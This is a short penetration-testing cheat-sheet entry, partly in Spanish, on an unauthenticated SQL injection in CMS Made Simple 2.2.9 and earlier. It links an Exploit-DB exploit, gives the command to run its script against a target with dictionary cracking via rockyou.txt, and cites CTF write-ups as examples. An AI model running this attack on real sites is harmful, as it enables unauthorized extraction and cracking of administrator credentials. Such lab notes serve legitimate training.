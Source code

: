 # CMS made simple

## Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9

- [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)

```bash
pip install termcolor

python sqli.py -u http://10.10.10./cms --crack -w rockyou.txt
```

esto intentara descifrar el SALT, el USERNAME, el MAIL, el password en HASH y lo intentara crackear mediante un ataque de diccionario.

### EJEMPLO

- [writeup machine HTB](https://arkanoidctf.medium.com/hackthebox-writeup-writeup-a4b445371787)
- Simple CTF - THM